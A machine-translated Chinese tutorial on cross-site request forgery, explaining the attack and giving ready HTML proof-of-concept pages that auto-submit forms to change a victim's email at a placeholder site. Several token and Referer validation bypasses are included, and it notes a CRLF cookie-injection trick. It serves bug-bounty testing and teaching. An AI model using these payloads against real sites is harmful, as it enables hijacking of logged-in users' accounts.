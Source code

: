 # 理解和利用:跨站点请求伪造— CSRF 漏洞

> 原文：<https://infosecwriteups.com/understanding-exploiting-cross-site-request-forgery-csrf-vulnerabilities-935952375b71?source=collection_archive---------0----------------------->

跨站点请求伪造(CSRF)是一种攻击，它迫使最终用户在他们当前通过了**身份验证的 web 应用程序上**执行非预期的动作**。**通过一点社会工程，攻击者可以强迫 web 应用程序的用户执行攻击者选择的**动作。**

> **跨站点脚本(或 XSS)** 允许攻击者在受害用户的浏览器中执行任意 JavaScript。
> 
> **跨站点请求伪造(或 CSRF)** 允许攻击者诱导受害用户执行他们不想执行的操作。

![](img/2429e81ecb5815e68c93c6498dc7992a.png)

*会议骑行:OWASP 测试指南*

CSRF 依赖于**认证会话，**如果受害者登录到易受攻击的应用程序，并被诱骗打开恶意的 URL 或页面，浏览器将自动附上 cookies 和生成的请求，以证明请求的真实性，因为这就是浏览器的工作方式。

## **理解:跨域请求:**

**同源策略**并不禁止一个网站向不同的域发出请求。然而，它确实**阻止发起网站处理对跨域请求的响应**。于是，CSRF 的攻击通常都是“**单向**而已。，攻击者可以诱使受害者发出 HTTP 请求，但他们无法从该请求中检索到响应。

# 在测试 CSRF 漏洞时要寻找什么？

可能使应用程序易受 CSRF 攻击的几点:

1.  该请求执行一个**特权**动作。
2.  应用程序仅仅依靠 HTTP cookies 来跟踪会话。
3.  **没有会话相关的令牌**在请求中的其他地方传输。
4.  攻击者可以**确定执行该动作所需的所有参数**。
5.  除了 cookie 中的会话令牌之外，**请求中不需要包含不可预测的值**。

## **查找 CSRF 漏洞的步骤:**

1.  找到一个代表不知情的用户执行敏感动作的**函数**，该函数**完全依赖 cookie**来跟踪用户会话。
2.  看看它是否在请求参数中使用了**任何攻击者可以提前完全确定的不可预测的令牌**。
3.  **创建一个 HTML 页面*** 发布所需的请求，无需任何用户
    交互。
4.  对于 **GET** 请求，您可以放置一个 **< img >** 标记，将 **src**
    属性设置为易受攻击的 URL。
    `<img src=”https://victim.net/email/update?email=attacker@mail.com">`
5.  对于 POST 请求，您可以创建一个**表单**，其中包含攻击所需的所有相关参数的隐藏字段，并将其目标设置为易受攻击的 URL。
    `<form action=”https://victim.net/email/update" method=”POST”>
    <input type=”hidden” name=”email” value=”attacker@mail.com” />
    </form>`
6.  您可以使用 JavaScript 在页面加载后立即自动提交表单。
7.  登录到应用程序后，使用同一个浏览器加载您制作的
    HTML 页面。
8.  验证在
    应用程序中执行了所需的操作。

*如果涉及大量参数，生成一个 HTML 页面可能是一项单调乏味的任务。所以，你可以一直:
1。使用内置在[打嗝套件专业](https://portswigger.net/burp/pro)
2 中的 [**CSRF PoC 生成器**](https://portswigger.net/burp/documentation/desktop/functions/generate-csrf-poc) 。或者使用**在线 CSRF PoC 生成器**像[安全。爱](https://security.love/CSRF-PoC-Genorator/)还是 [CSRF PoC Gen](http://online.attacker-site.com/html5/csrf_generator/csrf_poc_gen.html) 。

![](img/4440ab7b592089e380ae186c92f3086a.png)

# 利用 CSRF 漏洞:

1.  **没有防御的 CSRF 漏洞** 在没有提供唯一令牌来触发操作的情况下，使用以下示例 HTML 代码来生成 CSRF PoC。根据受害者的位置提供参数值。
    `<html>
    <body>
    <form method=”POST” action=”https://victim.net/email/update">
    <input type=”hidden” name=”email” value=”attacker@mail.com” />
    </form>
    <script>
    document.forms[0].submit();
    </script>
    </body>
    </html>`
2.  **CSRF，令牌验证取决于请求方法** 在请求与 HTTP 方法绑定的情况下，尝试用 GET 替换 POST，检查它是否仍然触发动作，使用下面的示例 HTML 代码生成 CSRF PoC。根据受害者的位置提供参数值。
    `<html>
    <body>
    <form method=”GET” action=”https://victim.net/email/update">
    <input type=”hidden” name=”email” value=”attacker@mail.com” />
    </form>
    <script>
    document.forms[0].submit();
    </script>
    </body>
    </html>`
3.  **CSRF，其中令牌验证取决于令牌是否存在** 在应用发布 CSRF 令牌的情况下，但**并未授权它**。从请求&中删除 csrf 参数，检查它是否仍然触发动作，如果是。然后使用 CSRF 漏洞中陈述的 HTML 代码生成 PoC，不进行任何防御。
4.  **CSRF，其中令牌不绑定到用户会话** 在应用程序发布 CSRF 令牌，但不将其与用户会话绑定的情况下。**在请求&的 csrf 参数中提供您的 csrf 令牌**值，检查它是否仍然触发动作，如果是。然后以类似的方式生成 PoC。根据受害者的位置提供参数值。
    `<html>
    <body>
    <form method=”POST” action=”https://victim.net/email/update">
    <input type=”hidden” name=”email” value=”attacker@mail.com” />
    <input type=”hidden” name=”csrf” value=”your_csrf_token” /></form>
    <script>
    document.forms[0].submit();
    </script>
    </body>
    </html>`
5.  **CSRF，其中令牌被绑定到非会话 cookie** 在应用发布 CSRF 令牌的情况下，它甚至被绑定到 cookie(csrf_cookie)，但是该 cookie 不用于跟踪会话。在请求&中提供您的 csrf_cookie & csrf 令牌值，检查它是否仍然触发动作，如果是。然后以类似的方式生成 PoC。根据受害者的位置提供参数值。
    `<html>
    <body>
    <form method=”POST” action=”https://victim.net/email/update">
    <input type=”hidden” name=”email” value=”attacker@mail.com” />
    <input type=”hidden” name=”csrf” value=”your_csrf_token” /></form>
    <img src=”https://victim.net/?some_action=action%0d%0aSET-Cookie:%20csrfcookie=your_csrf_cookie" onerror=”document.forms[0].submit()”>
    </body>
    </html>`
6.  **CSRF，其中令牌在 cookie 中被复制** 在应用发布 CSRF 令牌的情况下，它甚至被绑定到 cookie(csrf_cookie)，其中 cookie 不用于跟踪会话，但是 **csrf_cookie 是正在使用的 csrf 令牌**(或反之亦然)的一部分或与其相同。在请求&中提供您的 csrf_cookie & csrf 令牌值，检查它是否仍然触发动作，如果是。然后以与上述类似的方式生成 PoC。
7.  **CSRF，其中引用验证依赖于存在的头**
    在验证依赖于引用头的情况下。
    使用一个**元**标签`<meta name=”referrer” content=”never”>`来绕过推荐验证检查。然后以类似的方式生成 PoC。根据受害者的位置提供参数值。
    `<html>
    <body>
    <meta name=”referrer” content=”no-referrer”>
    <form method=”POST” action=”https://victim.net/email/update">
    <input type=”hidden” name=”email” value=”attacker@mail.com” />
    </form>
    <script>
    document.forms[0].submit();
    </script>
    </body>
    </html>`
8.  **绕过 CSRF 验证**
    寻找弱的&可预测的 CSRF 令牌。请参考:

[](https://medium.com/bugbountywriteup/open-redirects-bypassing-csrf-validations-simplified-4215dc4f180a) [## 开放重定向和绕过 CSRF 验证-简化

### 开放重定向是未经验证的重定向和转发，当 web 应用程序接受不受信任的输入时，这是可能的…

medium.com](https://medium.com/bugbountywriteup/open-redirects-bypassing-csrf-validations-simplified-4215dc4f180a) ![](img/8da10f1cf68fc4f998d825827328b0f3.png)

**参考文献:**

[](https://portswigger.net/web-security/csrf) [## 什么是 CSRF(跨站请求伪造)？教程和示例|网络安全学院

### 在本节中，我们将解释什么是跨站点请求伪造，描述一些常见 CSRF 的例子…

portswigger.net](https://portswigger.net/web-security/csrf)